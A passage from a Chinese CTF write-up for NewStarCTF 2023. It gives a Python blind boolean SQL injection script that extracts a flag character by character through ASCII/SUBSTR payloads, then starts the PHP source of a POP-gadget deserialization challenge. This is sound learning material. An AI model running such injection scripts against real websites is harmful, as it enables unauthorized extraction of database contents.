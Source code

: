 ```python
def Valname():  
    global host
    flag=''
    for i in range(1,1000):
        low = 32
        high = 128
        mid = (low+high)//2
        while low < high:
            #--报数据
            payload = "' And if(Ascii(Substr((Select Group_concat(flag) From here_is_flag),{i},1))>{mid},1,0)%23".format(i=i, mid=mid)
            res = requests.get(host + payload)

            if 'Physics' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if mid == 32 or mid == 127:
            break

        flag += chr(mid)
        i += 1
    print("数据为："+flag)

DBname()
TBname()
CLname()
Valname()
```

运行脚本得到flag
 ![在这里插入图片描述](assets/20590fff244e47b2878905ecb5a2a76f.png)

### POP Gadget(存在private和protected属性时，最好使用__construct()方法来进行构造)

源码

```php
 <?php
highlight_file(__FILE__);

class Begin{
    public $name;

    public function __destruct()
    {
        if(preg_match("/[a-zA-Z0-9]/",$this->name)){
            echo "Hello";
        }else{
            echo "Welcome to NewStarCTF 2023!";
        }
    }
}

class Then{
```